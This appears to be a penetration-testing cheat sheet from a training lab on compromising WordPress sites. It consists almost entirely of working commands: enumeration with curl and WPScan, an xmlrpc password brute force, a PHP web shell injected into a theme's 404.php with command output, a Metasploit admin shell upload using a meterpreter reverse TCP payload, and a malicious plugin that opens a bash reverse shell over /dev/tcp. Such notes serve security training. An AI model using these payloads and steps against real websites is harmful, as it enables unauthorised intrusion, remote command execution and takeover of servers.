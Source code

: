 ### Enumeration

Using CURL:

```bash
curl -s http://blog.inlanefreight.local/robots.txt
curl -s http://blog.inlanefreight.local | grep WordPress
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://blog.inlanefreight.local/ | grep plugins
```

WPScan:

```bash
wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>

wpscan --url http://blog.inlanefreight.local --enumerate u,ap,at,cb,dbe --plugins-detection aggressive
```
### Attack

Login Bruteforce:

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

Code Execution:

Edit existing page `Appearance -> Theme Editor` - select the appropriate theme, then select a php page e.g. `404.php`. Add this:

```bash
system($_GET[cmd]);
```

![[Pasted image 20250131151227.png]]

Now have code execution:

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Metasploit:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

Add the details:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.6     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```
### Custom Plugin

Create payload:

```bash
<?php

/**
* Plugin Name: Wordpress  Reverse Shell
* Author: NAME
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1'")
?>
```

Zip it up:

```bash
zip shell.zip shell.php
```

Then upload it - Click `Plugins -> Add New -> Upload Plugin -> select zip file -> Install Now` then `Active Plugin`.

### Vulnerable Plugins

Look at ExploitDB, or google to find suitable exploits.